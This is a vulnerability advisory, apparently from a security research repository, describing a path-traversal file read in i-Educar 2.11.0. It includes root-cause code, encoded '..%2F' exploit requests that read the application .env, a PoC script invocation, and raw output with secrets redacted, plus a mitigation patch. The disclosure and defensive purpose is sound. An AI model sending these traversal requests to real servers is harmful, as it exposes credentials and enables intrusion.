


# Path traversal / local file read in `LegacyModuleRewriteController`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-22 Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') — https://cwe.mitre.org/data/definitions/22.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N` = **7.7 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `GET /module/{module}/styles/{resource}` (same for `scripts` and `imagens`) — parameter(s): `resource`
- **Authentication:** login required (any profile; verified with the non-admin `secretary`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The rewrite controller that serves module assets builds a filesystem path by
concatenating the `path` and `resource` route segments into
`base_path("ieducar/intranet/{$path}/{$resource}")` and returns the file with
`file_get_contents()`. There is no containment check. Because Laravel decodes
`%2F` after nginx has already matched the location, `..` segments encoded as
`..%2F` reach PHP intact and escape the intended directory. Any authenticated
user can read arbitrary files readable by the PHP process — in this lab the
application `.env` (APP_KEY, database credentials), source code, and any other
file the `ieducar` user can open.

## Root cause

`app/Http/Controllers/LegacyModuleRewriteController.php:17`

```php
public function rewrite($module, $path, $resource)
{
    $filename = base_path("ieducar/intranet/{$path}/{$resource}");

    $contentFile = file_get_contents($filename);
    $contentType = mime_content_type($filename);

    return new Response($contentFile, Response::HTTP_OK, [
        'Content-Type' => $contentType,
    ]);
}
```

`routes/web.php:112-115`:

```php
Route::any('module/{module}/{path}/{resource}', 'LegacyModuleRewriteController@rewrite')
    ->where('module', '.*')
    ->where('path', 'imagens|scripts|styles')
    ->where('resource', '.*');
```

`resource` is `.*`, so it may contain `..` and `/`; the nginx front end only
normalizes literal `../` (paths with four literal/encoded levels are rejected
with `400`), while `..%2F` survives matching and is decoded by Laravel before
the controller runs. `base_path()` provides no protection because the
normalization happens on the string, after concatenation.

## Proof of concept

1. Log in (any profile; the PoC uses `secretary`).
2. Write a marker file inside the container:
   `/var/www/ieducar/i_explorar_poc05_marker.html`.
3. Read it through the traversal:

   ```bash
   GET /module/x/styles/..%2F..%2F..%2Fi_explorar_poc05_marker.html
   ```

4. Read the application `.env`:

   ```bash
   GET /module/x/styles/..%2F..%2F..%2F.env
   ```

5. The PoC removes the marker again and logs `.env` with secret values
   redacted by the evidence writer.

```bash
python3 i-explorar.py            # pick [05]
# or standalone:
python3 vulns/05-module-rewrite-path-traversal/poc.py --target http://127.0.0.1:8080
```

A control request for a missing file returns HTTP 500 (the file read fails),
showing that a successful `200` on the traversal really returned file bytes.

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001720Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:20.301333+00:00
# host: -03
# target: http://127.0.0.1:8080
$ docker compose exec -T php sh -c 'cat > /var/www/ieducar/i_explorar_poc05_marker.html'  # marker written

--- seed output ---
(empty)
--- end seed output ---

### GET /module/x/styles/..%2F..%2F..%2Fi_explorar_poc05_marker.html
HTTP 200 content-type=text/html; charset=utf-8

--- body ---
<html><head><title>i-explorar VULN 05 marker</title></head><body><h1>i-explorar VULN 05 — arbitrary file read</h1><p>This file lives at <code>/var/www/ieducar/i_explorar_poc05_marker.html</code> and was read through <code>GET /module/x/styles/..%2F..%2F..%2Fi_explorar_poc05_marker.html</code></p></body></html>
--- end body ---

### GET /module/x/styles/..%2F..%2F..%2F.env
HTTP 200 content-type=text/plain; charset=utf-8

--- body (secrets redacted by the evidence writer) ---
APP_NAME=i-Educar
APP_ENV=local
APP_KEY=<redacted>
APP_DEBUG=true
APP_URL=http://localhost
APP_TIMEZONE=America/Sao_Paulo
APP_TRACK_ERROR=false
APP_DEFAULT_HOST=ieducar.com.br

ASSETS_SECURE=false

API_ACCESS_KEY=
API_SECRET_KEY=

LEGACY_CODE=true
LEGACY_DISPLAY_ERRORS=false
LEGACY_PATH=ieducar
LOG_CHANNEL=stack
LOG_FILE_PERMISSION=0777

TELESCOPE_ENABLED=false

DB_CONNECTION=pgsql
DB_HOST=localhost
DB_PORT=5432
DB_DATABASE=ieducar
DB_USERNAME=ieducar
DB_PASSWORD=<redacted>

BROADCAST_DRIVER=null
CACHE_STORE=redis
CACHE_TTL=604800
QUEUE_CONNECTION=sync
SESSION_DRIVER=file
SESSION_LIFETIME=120

REDIS_HOST=localhost
REDIS_CLIENT=predis
REDIS_PASSWORD=<redacted>
REDIS_PORT=6379
REDIS_PREFIX=ieducar-

SENTINEL_HOSTS=localhost
SENTINEL_PORT=26379

MAIL_MAILER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=<redacted>
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY=<redacted>
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"

HONEYBADGER_API_KEY=

GOOGLE_TAG_MANAGER=

FILESYSTEM_DISK=local

AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=
AWS_BUCKET=

MIX_SOCKET_SERVER=127.0.0.1
MIX_SOCKET_PORT=6001

HOST_UID=1000
HOST_GID=1000

DOCKER_NGINX_PORT=8080
DOCKER_NGINX_SSL_PORT=8443
DOCKER_POSTGRES_PORT=15432
DOCKER_REDIS_PORT=6379
--- end body (secrets redacted by the evidence writer) ---

### control: GET /module/x/styles/..%2F..%2F..%2Fno_such_file_i_explorar
HTTP 500
$ docker compose exec -T php rm -f /var/www/ieducar/i_explorar_poc05_marker.html

--- cleanup output ---
(empty)
--- end cleanup output ---
# finished_at: 2026-09-11T00:17:21.396470+00:00
```

## Screenshots



Caption: browser (secretary session) rendering the marker file served through
`GET /module/x/styles/..%2F..%2F..%2Fi_explorar_poc05_marker.html`; the page
text states the path and the request used.



Caption: console capture of the run; `.env` is returned with `APP_KEY`,
`DB_PASSWORD` and other secrets masked by the evidence writer.

## Impact

Any authenticated user can read files readable by the PHP user, including:

- `.env` with `APP_KEY` (session and encrypted-data forgery), database
  credentials and third-party keys;
- application source code, which exposes further vulnerabilities and business
  logic;
- configuration files elsewhere on the container filesystem (for example
  `/etc/passwd`) subject to file permissions.

Database credentials can be used to connect directly to the Postgres container
on the compose network, bypassing application authorization entirely.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Resolve the requested path and verify containment, for example:

  ```php
  $base = realpath(base_path('ieducar/intranet/' . $path));
  $file = realpath($base . '/' . $resource);
  if ($file === false || !str_starts_with($file, $base . DIRECTORY_SEPARATOR)) {
      abort(404);
  }
  ```

- Prefer serving these assets directly from nginx (the route exists to emulate
  a rewrite rule) and reject any `resource` containing `..`, `%2F` or a NUL
  byte.
- Rotate `APP_KEY`, database and API credentials if untrusted users ever had
  an account on an exposed instance.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-22: https://cwe.mitre.org/data/definitions/22.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/05-module-rewrite-path-traversal/README.md
